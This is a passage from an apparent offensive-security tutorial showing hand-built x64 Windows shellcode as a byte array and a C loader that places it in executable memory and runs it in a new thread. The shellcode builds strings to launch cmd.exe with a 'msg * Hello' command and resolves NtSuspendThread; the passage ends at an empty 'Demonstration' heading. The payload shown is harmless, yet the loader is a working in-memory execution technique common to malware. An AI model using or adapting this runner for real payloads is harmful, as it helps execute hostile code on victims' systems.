	0x5C, 0x00, 0x48, 0x89, 0x45, 0x60, 0x48, 0xB8, 0x43, 0x00, 0x3A, 0x00,
	0x5C, 0x00, 0x57, 0x00, 0x48, 0x89, 0x45, 0x68, 0x48, 0xB8, 0x69, 0x00,
	0x6E, 0x00, 0x64, 0x00, 0x6F, 0x00, 0x48, 0x89, 0x45, 0x70, 0x48, 0xB8,
	0x77, 0x00, 0x73, 0x00, 0x5C, 0x00, 0x53, 0x00, 0x48, 0x89, 0x45, 0x78,
	0x48, 0xB8, 0x79, 0x00, 0x73, 0x00, 0x74, 0x00, 0x65, 0x00, 0x48, 0x89,
	0x85, 0x80, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x6D, 0x00, 0x33, 0x00, 0x32,
	0x00, 0x5C, 0x00, 0x48, 0x89, 0x85, 0x88, 0x00, 0x00, 0x00, 0x48, 0xB8,
	0x63, 0x00, 0x6D, 0x00, 0x64, 0x00, 0x2E, 0x00, 0x48, 0x89, 0x85, 0x90,
	0x00, 0x00, 0x00, 0x48, 0xB8, 0x65, 0x00, 0x78, 0x00, 0x65, 0x00, 0x00,
	0x00, 0x48, 0x89, 0x85, 0x98, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x55, 0x60,
	0x48, 0x8D, 0x8D, 0x18, 0x02, 0x00, 0x00, 0xFF, 0x95, 0x10, 0x02, 0x00,
	0x00, 0x48, 0xB8, 0x5C, 0x00, 0x3F, 0x00, 0x3F, 0x00, 0x5C, 0x00, 0x48,
	0x89, 0x85, 0xA0, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x43, 0x00, 0x3A, 0x00,
	0x5C, 0x00, 0x57, 0x00, 0x48, 0x89, 0x85, 0xA8, 0x00, 0x00, 0x00, 0x48,
	0xB8, 0x69, 0x00, 0x6E, 0x00, 0x64, 0x00, 0x6F, 0x00, 0x48, 0x89, 0x85,
	0xB0, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x77, 0x00, 0x73, 0x00, 0x5C, 0x00,
	0x53, 0x00, 0x48, 0x89, 0x85, 0xB8, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x79,
	0x00, 0x73, 0x00, 0x74, 0x00, 0x65, 0x00, 0x48, 0x89, 0x85, 0xC0, 0x00,
	0x00, 0x00, 0x48, 0xB8, 0x6D, 0x00, 0x33, 0x00, 0x32, 0x00, 0x5C, 0x00,
	0x48, 0x89, 0x85, 0xC8, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x63, 0x00, 0x6D,
	0x00, 0x64, 0x00, 0x2E, 0x00, 0x48, 0x89, 0x85, 0xD0, 0x00, 0x00, 0x00,
	0x48, 0xB8, 0x65, 0x00, 0x78, 0x00, 0x65, 0x00, 0x20, 0x00, 0x48, 0x89,
	0x85, 0xD8, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x2F, 0x00, 0x6B, 0x00, 0x20,
	0x00, 0x6D, 0x00, 0x48, 0x89, 0x85, 0xE0, 0x00, 0x00, 0x00, 0x48, 0xB8,
	0x73, 0x00, 0x67, 0x00, 0x20, 0x00, 0x2A, 0x00, 0x48, 0x89, 0x85, 0xE8,
	0x00, 0x00, 0x00, 0x48, 0xB8, 0x20, 0x00, 0x48, 0x00, 0x65, 0x00, 0x6C,
	0x00, 0x48, 0x89, 0x85, 0xF0, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x6C, 0x00,
	0x6F, 0x00, 0x20, 0x00, 0x66, 0x00, 0x48, 0x89, 0x85, 0xF8, 0x00, 0x00,
	0x00, 0x48, 0xB8, 0x72, 0x00, 0x6F, 0x00, 0x6D, 0x00, 0x20, 0x00, 0x48,
	0x89, 0x85, 0x00, 0x01, 0x00, 0x00, 0x48, 0xB8, 0xF4, 0x00, 0x66, 0x00,
	0x66, 0x00, 0x65, 0x00, 0x48, 0x89, 0x85, 0x08, 0x01, 0x00, 0x00, 0x48,
	0xB8, 0x6E, 0x00, 0x73, 0x00, 0x69, 0x00, 0x76, 0x00, 0x48, 0x89, 0x85,
	0x10, 0x01, 0x00, 0x00, 0x48, 0xB8, 0x65, 0x00, 0x20, 0x00, 0x50, 0x00,
	0x61, 0x00, 0x48, 0x89, 0x85, 0x18, 0x01, 0x00, 0x00, 0x48, 0xB8, 0x6E,
	0x00, 0x64, 0x00, 0x61, 0x00, 0x00, 0x00, 0x48, 0x89, 0x85, 0x20, 0x01,
	0x00, 0x00, 0x48, 0xC7, 0x85, 0x28, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x48, 0x8D, 0x95, 0xA0, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x28,
	0x02, 0x00, 0x00, 0xFF, 0x95, 0x10, 0x02, 0x00, 0x00, 0x48, 0xC7, 0x85,
	0x38, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xC7, 0x44, 0x24, 0x50,
	0x01, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x44, 0x24, 0x48, 0x00, 0x00, 0x00,
	0x00, 0x48, 0xC7, 0x44, 0x24, 0x40, 0x00, 0x00, 0x00, 0x00, 0x48, 0xC7,
	0x44, 0x24, 0x38, 0x00, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x44, 0x24, 0x30,
	0x00, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x44, 0x24, 0x28, 0x00, 0x00, 0x00,
	0x00, 0x48, 0x8D, 0x85, 0x28, 0x02, 0x00, 0x00, 0x48, 0x89, 0x44, 0x24,
	0x20, 0x45, 0x33, 0xC9, 0x45, 0x33, 0xC0, 0x48, 0x8D, 0x95, 0x18, 0x02,
	0x00, 0x00, 0x48, 0x8D, 0x8D, 0x38, 0x02, 0x00, 0x00, 0xFF, 0x95, 0x00,
	0x02, 0x00, 0x00, 0x48, 0x8D, 0x85, 0x40, 0x02, 0x00, 0x00, 0x48, 0x8B,
	0xF8, 0x33, 0xC0, 0xB9, 0x58, 0x00, 0x00, 0x00, 0xF3, 0xAA, 0x48, 0xC7,
	0x85, 0x40, 0x02, 0x00, 0x00, 0x58, 0x00, 0x00, 0x00, 0xC7, 0x85, 0x48,
	0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xB8, 0x08, 0x00, 0x00, 0x00,
	0x48, 0x6B, 0xC0, 0x01, 0x41, 0xB8, 0x20, 0x00, 0x00, 0x00, 0xBA, 0x08,
	0x00, 0x00, 0x00, 0x48, 0x8B, 0x4D, 0x00, 0x48, 0x8B, 0x4C, 0x01, 0x28,
	0xFF, 0x95, 0xF8, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xA0, 0x02, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0xA0, 0x02, 0x00, 0x00, 0x48, 0xC7, 0x00, 0x28,
	0x00, 0x00, 0x00, 0xB8, 0x20, 0x00, 0x00, 0x00, 0x48, 0x6B, 0xC0, 0x00,
	0x48, 0x8B, 0x8D, 0xA0, 0x02, 0x00, 0x00, 0xC7, 0x44, 0x01, 0x08, 0x05,
	0x00, 0x02, 0x00, 0xB8, 0x20, 0x00, 0x00, 0x00, 0x48, 0x6B, 0xC0, 0x00,
	0x0F, 0xB7, 0x8D, 0x18, 0x02, 0x00, 0x00, 0x48, 0x8B, 0x95, 0xA0, 0x02,
	0x00, 0x00, 0x48, 0x89, 0x4C, 0x02, 0x10, 0xB8, 0x20, 0x00, 0x00, 0x00,
	0x48, 0x6B, 0xC0, 0x00, 0x48, 0x8B, 0x8D, 0xA0, 0x02, 0x00, 0x00, 0x48,
	0x8B, 0x95, 0x20, 0x02, 0x00, 0x00, 0x48, 0x89, 0x54, 0x01, 0x18, 0x48,
	0xC7, 0x85, 0xB0, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0xA0, 0x02, 0x00, 0x00, 0x48, 0x89, 0x44, 0x24, 0x50, 0x48, 0x8D,
	0x85, 0x40, 0x02, 0x00, 0x00, 0x48, 0x89, 0x44, 0x24, 0x48, 0x48, 0x8B,
	0x85, 0x38, 0x02, 0x00, 0x00, 0x48, 0x89, 0x44, 0x24, 0x40, 0xC7, 0x44,
	0x24, 0x38, 0x00, 0x00, 0x00, 0x00, 0xC7, 0x44, 0x24, 0x30, 0x00, 0x00,
	0x00, 0x00, 0x48, 0xC7, 0x44, 0x24, 0x28, 0x00, 0x00, 0x00, 0x00, 0x48,
	0xC7, 0x44, 0x24, 0x20, 0x00, 0x00, 0x00, 0x00, 0x41, 0xB9, 0xFF, 0xFF,
	0x1F, 0x00, 0x41, 0xB8, 0xFF, 0xFF, 0x1F, 0x00, 0x48, 0x8D, 0x95, 0xB0,
	0x02, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0xA8, 0x02, 0x00, 0x00, 0xFF, 0x95,
	0x08, 0x02, 0x00, 0x00, 0x89, 0x85, 0xB8, 0x02, 0x00, 0x00, 0x48, 0xB8,
	0x4E, 0x74, 0x53, 0x75, 0x73, 0x70, 0x65, 0x6E, 0x48, 0x89, 0x45, 0x10,
	0x48, 0xB8, 0x64, 0x54, 0x68, 0x72, 0x65, 0x61, 0x64, 0x00, 0x48, 0x89,
	0x45, 0x18, 0x48, 0x8D, 0x55, 0x10, 0x48, 0x8B, 0x8D, 0xE8, 0x01, 0x00,
	0x00, 0xFF, 0x95, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xC0, 0x02,
	0x00, 0x00, 0x33, 0xD2, 0x48, 0xC7, 0xC1, 0xFE, 0xFF, 0xFF, 0xFF, 0xFF,
	0x95, 0xC0, 0x02, 0x00, 0x00, 0x48, 0x8D, 0xA5, 0x58, 0x03, 0x00, 0x00,
	0x5F, 0x5D, 0xC3 };

unsigned int sc_len = sizeof(sc);

int main(void) {
    void* my_sc_mem; // pointer to memory buffer for payload
    HANDLE hthread;

    // Allocate a memory buffer for payload with permission RWX
	my_sc_mem = VirtualAlloc(0, sc_len, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // copy payload to allocated buffer using memcpy(), you can also use RtlMoveMemory()
    memcpy(my_sc_mem, sc, sc_len);

     // run shellcode
	hthread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)my_sc_mem, 0, 0, 0);
	if (hthread != NULL) {
		WaitForSingleObject(hthread, 500);
		CloseHandle(hthread);
		return 0;
	}
  
    return 0;
}
```

## Demonstration


